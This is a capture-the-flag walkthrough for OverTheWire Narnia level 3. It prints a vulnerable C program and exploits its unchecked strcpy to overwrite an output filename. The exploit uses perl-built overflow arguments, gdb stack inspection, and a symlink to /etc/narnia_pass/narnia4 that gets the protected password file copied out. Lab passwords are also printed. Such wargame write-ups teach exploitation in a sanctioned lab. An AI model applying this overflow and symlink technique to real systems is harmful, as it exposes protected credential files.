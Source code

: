 # Level 3 → Level 4

## Solution
```
ssh narnia3@narnia.labs.overthewire.org -p 2226
```
```
8SyQ2wyEDU
```
```
cd /narnia ; ls -al
```
```
./narnia3
```

![](0.png)

```
./narnia3 /etc/narnia_pass/narnia4
```

![](1.png)

Is it possible to print `/dev/null`? [No](https://linuxhandbook.com/dev-null/). So let's look at the code:

```
cat narnia3.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

There is no return in this code.<br />
Therefore there is no return value that we can overwrite...

But what really stands out here is again `strcpy` function. We will try to overwrite the string in `ofile` to be our **own file**. can we do this Let's check:

```
tempdir=$(mktemp -d) ; cd $tempdir
```
```
chmod 777 .
```
```
echo "File to copy" > $(perl -e 'print "A"x32')
```
```
touch $(perl -e 'print "B"x10')
```

Let's see what happens:

```
/narnia/narnia3 $(perl -e 'print "A"x32 . "B"x10')
```

![](2.png)

What exactly happened?? <br />
It seems that the program was able to open `BBBBBBBBBB`, but failed with `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` because the name of the file is appended to the name of the next file...

Let's check what happened in the stack memory:

```
gdb /narnia/narnia3
```
```
disas main
```

![](3.png)

Since we want to see the stack immediately after strcpy, we set the breakpoint to be at address `0x0804922d`:

```
b *0x0804922d
```
```
r $(perl -e 'print "A"x32 . "B"x10')
```
```
x/40x $sp
```

![](4.png)

* Light Blue - `buf` (junk content)
* Green - `ifile`
* Yellow - `ofile`
* Red - `ofd` (junk content)
* Purple - `ifd` (junk content)

This mean that in the code `strcpy(ifile, argv[1]);` the name of the file `ifile` is like a string that should end in `\x00`. And because in this case there is no such character, the software tries to open the file `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBB` which actually does not exist.

So we will rename the ifile file to be 31 characters to reset the last character.

```
exit
```
```
rm $(perl -e 'print "A"x32')
```
```
echo "File to copy" > $(perl -e 'print "A"x31')
```
```
/narnia/narnia3 $(perl -e 'print "A"x31 . "\x00" . "B"x10')
```

![](5.png)

I think I understand what's going on here.. The character \x00 cannot be inserted. We will check that this character was really ignored:

```
gdb --args /narnia/narnia3 $(perl -e 'print "A"x31 . "\x00" . "B"x10')
```
```
b *0x0804922d
```
```
r
```
```
x/40x $sp
```

![](6.png)

very annoying Can we maybe change the null character to something else? We will check:

```
exit
```
```
/narnia/narnia3 $(perl -e 'print "A"x31 . "\x01" . "B"x10')
```

![](7.png)

probably not.<br />
But when I saw this, I had the following idea:

We will actually create the file `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBB`. This file will be a soft link to the password.
When we enter it into the software, it will cause it to open `BBBBBBBBBB` as an `ofile`.
After that it will copy the file `ifile` to `ofile` and that's it. Let's try this:

```
cd ~ ; rm -r $tempdir ; tempdir=$(mktemp -d) ; cd $tempdir
```
```
chmod 777 .
```
```
ln -s /etc/narnia_pass/narnia4 $(perl -e 'print "A"x32 . "B"x10')
```
```
touch  $(perl -e 'print "B"x10')
```
```
ls -al
```

![](8.png)

```
/narnia/narnia3 $(perl -e 'print "A"x32 . "B"x10')
```
```
cat BBBBBBBBBB
```

![](9.png)

```
cd ~ ; rm -r $tempdir
```

## Password for the next level:
```
aKNxxrpDc1
```

